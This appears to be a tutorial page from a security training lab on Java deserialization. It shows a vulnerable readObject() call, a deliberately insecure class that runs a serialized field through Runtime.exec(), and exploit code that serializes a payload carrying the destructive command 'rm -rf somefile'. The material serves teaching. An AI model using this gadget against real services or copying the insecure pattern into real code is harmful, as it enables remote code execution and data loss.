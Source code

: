 == The Simplest Exploit

=== Vulnerable code

The following is a well-known example for a Java Deserialization vulnerability.

[source,java]
----
InputStream is = request.getInputStream();
ObjectInputStream ois = new ObjectInputStream(is);
AcmeObject acme = (AcmeObject)ois.readObject();
----

It is expecting an `AcmeObject` object, but it will execute `readObject()` before the casting ocurs.
If an attacker finds the proper class implementing dangerous operations in `readObject()`, he could serialize that object and force the vulnerable application to performe those actions.

=== Class included in ClassPath

Attackers need to find a class in the classpath that supports serialization and with dangerous implementations on `readObject()`.

[source,java]
----
package org.dummy.insecure.framework;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.time.LocalDateTime;

public class VulnerableTaskHolder implements Serializable {

	private static final long serialVersionUID = 1;

	private String taskName;
	private String taskAction;
	private LocalDateTime requestedExecutionTime;
	
	public VulnerableTaskHolder(String taskName, String taskAction) {
		super();
		this.taskName = taskName;
		this.taskAction = taskAction;
		this.requestedExecutionTime = LocalDateTime.now();
	}

	private void readObject( ObjectInputStream stream ) throws Exception {
        //unserialize data so taskName and taskAction are available
		stream.defaultReadObject();
		
		//bindly run some code. #code injection
		Runtime.getRuntime().exec(taskAction);
       
    }
	
}
----

=== Exploit

If the java class shown above exists, attackers can serialize that object and obtain Remote Code Execution.

[source,java]
----
VulnerableTaskHolder go = new VulnerableTaskHolder("delete all", "rm -rf somefile");

ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(go);
oos.flush();
byte[] exploit = bos.toByteArray();
----